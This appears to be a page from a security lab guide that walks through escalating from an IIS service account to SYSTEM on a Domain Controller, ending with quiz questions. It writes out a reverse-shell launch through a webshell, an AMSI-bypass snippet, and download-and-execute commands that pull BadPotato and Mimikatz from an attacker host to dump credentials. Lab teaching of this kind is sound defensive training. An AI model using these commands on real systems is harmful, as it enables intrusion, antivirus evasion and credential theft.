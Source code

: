 #Local Privilege Escalation
In this attack, we'll leverage remote command execution under a service account security context to compromise the Domain Controller locally. To reach remote command execution position perform the IIS abuse attack, also present in this lab.

Once the attacker achieves remote command execution under the IIS service Application Pool Identity, the next objective is to establish a reverse shell. This is because the uploaded webshell can only run single, stateless commands. It does not maintain a persistent session. To gain more control and flexibility, the attacker needs to spawn a reverse shell that allows interactive command execution and session management.

To do so, run the following:
```
#in the webshell directory
python3 reverse_shell_command.py 192.168.122.2 4444
```

This script outputs a powershell command encoded in B64, for obfuscation and to prevent special character issues. The command will initiate a TCP connection from the machine running the command to port 4444 at IP 192.168.122.2 (the attacker), and listen for powershell commands.

We can get the output from the command, and send it to our webshell endpoint. Before doing so, we'll use netcat to start listening for a connection in port 4444 of the attacker machine.
```
#in the attacker2 terminal
nc -nlvp 4444
#in the attacker terminal
curl -X POST http://192.168.122.10/upload/webshell.aspx --data-urlencode "param=<output from reverse_shell_command.py>"
```

At this point, you've supposedly received a connection in port 4444, meaning the reverse shell has been set up and now you can run commands on a single persistent session, instead of running stateless commands.

The attacker's objective will be to run a mallicious script that uses service account privileges to reach SYSTEM privileges. To be able to run mallicious scripts, AMSI must be bypassed. Anti-Malware Scan Interface scans scripts before execution and prevents it if they're suspicious. AMSI also prevents certain well-known scritps from running. Take a look:

```
Invoke-Mimikatz
echo $Error[0].Exception.Message
```

The error message tells us that this script can't be run due to mallicious content.
Let's try and bypass AMSI in the current powershell process to see if anything different happens:
```
$w=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');
$f=$w.GetField('amsiInitFailed','NonPublic,Static');
$f.SetValue($null,$true)

Invoke-Mimikatz
echo $Error[0].Exception.Message
```

This time, we've set the amsiInitFailed flag to true, which indicates powershell that AMSI has failed. Now, powershell won't call AMSI since it has supposedly failed. If you try to run Invoke-Mimikatz again, you'll now get a different error, indicating that there's no such cmdlet, meaning that the AMSI has been bypassed in this session.

Now, the attacker's objective is to bypass AMSI at the .NET level. At this point, the AMSI has been bypassed in the current Powershell session, but the mallicious script we wish to use down the line uses other AMSI-aware processes, namely, C# executables. If we don't bypass AMSI at the .NET level, AMSI will stop our mallicious script from executing.

To bypass AMSI at the .NET level, we'll use 'amsi-net-bypass.txt', present in the webshell directory.
```
#In the Attacker terminal
python3 -m http.server 8081
#In the Attacker2 terminal
(new-object system.net.webclient).downloadstring('http://192.168.122.2:8081/amsi-net-bypass.txt')|IEX
```
This way, we've loaded the 'amsi-net-bypass.txt' into memory and executed it. It should output 'True', meaning that it worked. Important to notice that we've loaded the script into memory, not into disk. Loading mallicious scripts to disk may trigger Anti-Virus tools, so it's imperative to work only in memory.

At this point, the attacker can run mallicious scripts, as long as these scripts do not touch the disk. Let's now escalate our privileges locally, going from the IIS service security context to the SYSTEM security context. This will be done with the 'Invoke-BadPotato.ps1' script:

```
iex(new-object net.webclient).downloadstring('http://192.168.122.2:8081/PowerSharpPack/PowerSharpBinaries/Invoke-BadPotato.ps1')
Invoke-BadPotato
[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
#you can also experiment with other tools such as Mimikatz
iex(new-object net.webclient).downloadstring('http://192.168.122.2:8081/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command "sekurlsa::tickets"
```

This way, an attacker is able to escalate its privileges locally, from a service account security context to the SYSTEM security context, having full control over the DC, in this case.

!!! question
    Why is it necessary to establish a reverse shell instead of using the webshell directly?
??? success "Answer"
    In order to be able to maintain a session state. If otherwise the attacker would for example bypass AMSI through the webshell, state would not be maintained, so it would be as nothing was bypassed, rendering this attack useless.
!!! question
    What technique does Invoke-BadPotato use to escalate privileges?
??? success "Answer"
    Invoke-BadPotato escalates privileges by exploiting Windows services that run as SYSTEM and improperly handle token impersonation. It leverages the Printer Bug to trick a SYSTEM-level process to authenticate to an attacker-controlled named pipe. This will allow the attacker to impersonate the SYSTEM access token and spawn a process with SYSTEM-level privileges. This technique requires the attacker's compromised account to hold the SeImpersonatePrivilege, which is commonly available to service accounts like those used by IIS.